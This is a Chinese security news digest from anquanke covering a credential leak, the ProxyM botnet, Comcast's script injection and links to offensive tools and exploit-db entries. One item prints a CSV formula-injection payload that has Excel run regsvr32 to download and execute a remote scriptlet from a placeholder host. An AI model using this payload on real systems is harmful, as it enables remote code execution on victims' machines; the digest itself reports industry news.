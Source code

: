 > 原文链接: https://www.anquanke.com//post/id/90176 


# 12月12日安全热点 - ProxyM僵尸网络/ISP Comcast继续js代码注入


                                阅读量   
                                **93747**
                            
                        |
                        
                                                                                    



[![](https://p5.ssl.qhimg.com/t010e95f0791146112c.png)](https://p5.ssl.qhimg.com/t010e95f0791146112c.png)



## 资讯类

14亿明文密码在暗网流通

[https://medium.com/4iqdelvedeep/1-4-billion-clear-text-credentials-discovered-in-a-single-database-3131d0a1ae14](https://medium.com/4iqdelvedeep/1-4-billion-clear-text-credentials-discovered-in-a-single-database-3131d0a1ae14)



谷歌员工发布推文

“iOS 11.1.2, now with more kernel debugging”

[![](https://p4.ssl.qhimg.com/t01a48c45f285c2c96e.png)](https://p4.ssl.qhimg.com/t01a48c45f285c2c96e.png)<br>[https://twitter.com/i41nbeer/status/940254977838206976](https://twitter.com/i41nbeer/status/940254977838206976)<br>[https://bugs.chromium.org/p/project-zero/issues/detail?id=1417#c3](https://bugs.chromium.org/p/project-zero/issues/detail?id=1417#c3)



ProxyM僵尸网络正作为黑客SQLi, XSS, LFI攻击的中继节点<br>
（这个僵尸网络从今年2月开始活跃，曾一度感染至10000台设备）<br>[https://www.bleepingcomputer.com/news/security/proxym-botnet-used-as-relay-point-for-sqli-xss-lfi-attacks/](https://www.bleepingcomputer.com/news/security/proxym-botnet-used-as-relay-point-for-sqli-xss-lfi-attacks/)



电信运营商Comcast继续向用户访问的网站注入js代码弹框提示用户进行升级<br>[https://thenextweb.com/insights/2017/12/11/comcast-continues-to-inject-its-own-code-into-websites-you-visit/](https://thenextweb.com/insights/2017/12/11/comcast-continues-to-inject-its-own-code-into-websites-you-visit/)



比特币与门罗币的比较<br>
（门罗币相对比特币的优点在于：1.不可追踪；2.交易快捷；3.普通电脑就可以挖矿）<br>[https://blog.malwarebytes.com/security-world/2017/12/how-cryptocurrency-mining-works-bitcoin-vs-monero/](https://blog.malwarebytes.com/security-world/2017/12/how-cryptocurrency-mining-works-bitcoin-vs-monero/)



## 技术类

[Tools]一行Powershell代码从内存中拿到Wdigest 密码

[https://github.com/giMini/mimiDbg](https://github.com/giMini/mimiDbg)



[Tools]Invoke-MacroCreator: 用于创建VBA宏的word文档，可执行各种payload的powershell脚本<br>[https://github.com/Arno0x/PowerShellScripts/tree/master/MacroCreator](https://github.com/Arno0x/PowerShellScripts/tree/master/MacroCreator)



[Tools]从Vdex文件反编译和提取Android Dex字节码的工具

[https://github.com/anestisb/vdexExtractor](https://github.com/anestisb/vdexExtractor)



[Tools]IDA调试插件for android<br>[https://github.com/zhkl0228/AndroidAttacher](https://github.com/zhkl0228/AndroidAttacher)



[漏洞]Lenovo OEM-installed crapware comes with a nice Code Execution feature! Could be used to bypass app whitelisting or privesc (guest account to main user)<br>[http://riscy.business/2017/12/lenovos-unsecured-objects/](http://riscy.business/2017/12/lenovos-unsecured-objects/)



[Tools]Linux内存加密密钥提取工具<br>[https://github.com/cryptolok/crykex](https://github.com/cryptolok/crykex)



[教程]在Debian 7.5 mipsel Ci20上运行Metasploit<br>[https://astr0baby.wordpress.com/2017/12/10/running-metasploit-framework-on-debian-7-5-mipsel-ci20/](https://astr0baby.wordpress.com/2017/12/10/running-metasploit-framework-on-debian-7-5-mipsel-ci20/)



不用powershell.exe，通过.csv文件拿到shell

```
fillerText1,fillerText2,fillerText3,=MSEXCEL|'\..\..\..\Windows\System32\regsvr32 /s /n /u /i:http://RemoteIPAddress/SCTLauncher.sct scrobj.dll'!''
```

[https://twitter.com/G0ldenGunSec/status/939215702073991168](https://twitter.com/G0ldenGunSec/status/939215702073991168)



[漏洞]iOS/macOS – Kernel Double Free due to IOSurfaceRootUserClient not Respecting MIG Ownership Rules<br>[https://www.exploit-db.com/exploits/43320/](https://www.exploit-db.com/exploits/43320/)



[漏洞]MikroTik 6.40.5 ICMP – Denial of Service<br>[https://www.exploit-db.com/exploits/43317/](https://www.exploit-db.com/exploits/43317/)
